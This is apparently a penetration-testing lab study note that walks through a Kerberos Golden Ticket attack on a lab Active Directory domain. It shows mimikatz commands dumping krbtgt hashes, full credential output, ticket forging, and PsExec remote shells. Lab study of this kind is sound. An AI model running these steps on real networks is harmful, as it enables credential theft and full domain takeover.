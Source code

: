 #SID #krbtgt #mimikatz #psexec  

Once we have the SID and krbtgt hash, we can generate a ticket  
# What is it?

- When we compromise the krbtgt account, we own the domain
- We can request access to any resource or system on the domain  
- Golden tickets == complete access to every machine

We can utilize Mimikatz to obtain the information necessary to perform this attack

`mimikatz.exe`

`privilege::debug`​

`lsadump::lsa /inject /name:krbtgt`​

- dumps the information for the krbtgt account
- need:
	- krbtgt ntlm hash
	- domain SID  
Start-Process -FilePath "C:\Users\administrator\Downloads\mimikatz.exe" -Verb RunAs

Results:
```
C:\Users\Administrator\Downloads>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : MARVEL / S-1-5-21-3809429150-595446586-675097592

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 60163dd27f6c523edea3d171b2687db4
    LM   :
  Hash NTLM: 60163dd27f6c523edea3d171b2687db4
    ntlm- 0: 60163dd27f6c523edea3d171b2687db4
    lm  - 0: d315786f2f638a2e2c982770db7ea983

 * WDigest
    01  6b3668ccfc3c1d765603cf763cacb54a
    02  4cf7548763b61e728a8623a1f56d9b9b
    03  f22deb1da72e103d65ca15d76d3d8a90
    04  6b3668ccfc3c1d765603cf763cacb54a
    05  4cf7548763b61e728a8623a1f56d9b9b
    06  a2c6cc4a2a336f39994c316c27888da9
    07  6b3668ccfc3c1d765603cf763cacb54a
    08  82dd34d799a60d5c23e77d9495bef622
    09  b74cebf217f1497daab39baeed14377f
    10  070b118912dcdea684c702df2aba5c4c
    11  0e8c8a46947a5e40b772dbfb27efbff8
    12  b74cebf217f1497daab39baeed14377f
    13  917191fb7394c19fd6f353cd2cc59415
    14  0e8c8a46947a5e40b772dbfb27efbff8
    15  822ba92fff48689533633f002553f9df
    16  7e0b4051e149308d32be5b37391ac0c0
    17  707f1b31554829ace41fc22a641ee103
    18  f1c8438ccc91ba9c5b680e4e6d31a93a
    19  c10c26ebfc309987e143016e8c385dfd
    20  aaddf72b4a0a329bc236b9999f020b55
    21  2b55aad6f97b08c414e3b9f87c912f95
    22  2b55aad6f97b08c414e3b9f87c912f95
    23  bae97097016b2d97a995aa8372eddb3a
    24  8df01a1c50c1975ac9af45f0a6e05d4f
    25  0904c15efad7b5815e91dfb4712610fa
    26  b5f40647fb597b91cd5562a90e219f24
    27  cd59636c9b469005a368fa2eab515c69
    28  6d75014e3c903a77eb7553596b07e4c7
    29  c395aac429e46c78175d4820ab962143

 * Kerberos
    Default Salt : MARVEL.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 4546cb2f1c13c754

 * Kerberos-Newer-Keys
    Default Salt : MARVEL.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 981ff0f170cdae1af3126454e6be4992a97ab314de13310f0328a09067aac089
      aes128_hmac       (4096) : cb381cd42cd961408bce258de2880686
      des_cbc_md5       (4096) : 4546cb2f1c13c754

 * NTLM-Strong-NTOWF
    Random Value : 50e5c535ed079c714856f6f480984d70
```


Once we have the SID and krbtgt hash, we can generate a ticket (in mimikatz)  

`kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-3809429150-595446586-675097592 /krbtgt:60163dd27f6c523edea3d171b2687db4 /id:500 /ptt`​

- /User can be a fake user, /domain must be real  

Result:
```
mimikatz # kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-3809429150-595446586-675097592 /krbtgt:60163dd27f6c523edea3d171b2687db4 /id:500 /ptt
User      : Administrator
Domain    : marvel.local (MARVEL)
SID       : S-1-5-21-3809429150-595446586-675097592
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 60163dd27f6c523edea3d171b2687db4 - rc4_hmac_nt
Lifetime  : 7/6/2024 10:12:07 AM ; 7/4/2034 10:12:07 AM ; 7/4/2034 10:12:07 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ marvel.local' successfully submitted for current session
```


`misc::cmd`​

With a Golden Ticket, we can now access other machines from the cmd line

`dir \\10.0.0.25\C$   `
`dir \\THEPUNISHER\c$`

Results:
```
C:\Users\Administrator\Downloads>whoami
marvel\administrator

C:\Users\Administrator\Downloads>dir \\THEPUNISHER\c$
 Volume in drive \\THEPUNISHER\c$ has no label.
 Volume Serial Number is C810-5545

 Directory of \\THEPUNISHER\c$

07/03/2024  11:52 AM             1,191 @test.lnk
12/07/2019  02:14 AM    <DIR>          PerfLogs
06/28/2024  04:15 PM    <DIR>          Program Files
09/07/2022  08:16 PM    <DIR>          Program Files (x86)
06/26/2024  11:01 AM    <DIR>          Users
07/03/2024  12:10 PM    <DIR>          Windows
               1 File(s)          1,191 bytes
               5 Dir(s)  32,323,223,552 bytes free

C:\Users\Administrator\Downloads>dir \\SPIDERMAN\c$
 Volume in drive \\SPIDERMAN\c$ has no label.
 Volume Serial Number is 0815-C3C4

 Directory of \\SPIDERMAN\c$

12/07/2019  02:14 AM    <DIR>          PerfLogs
06/28/2024  04:10 PM    <DIR>          Program Files
09/07/2022  08:16 PM    <DIR>          Program Files (x86)
06/26/2024  10:35 AM    <DIR>          Users
06/29/2024  08:50 AM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  39,861,657,600 bytes free
```
​​​
`Exec64.exe \\10.0.0.25 cmd.exe`​
`psexec.exe \\THEPUNISHER cmd.exe`
- (psexec.exe is a Windows tool.run it in the Golden Ticket session against another domain user/account to get a shell)
`whoami`​
`hostname`​

Results:
```
C:\Users\Administrator\Downloads>PsExec.exe \\THEPUNISHER cmd.exe

PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
marvel\administrator

C:\Windows\system32>hostname
THEPUNISHER
```


Golden Ticket is persistence. Silver Ticket is stealthier than Golden Ticket.  

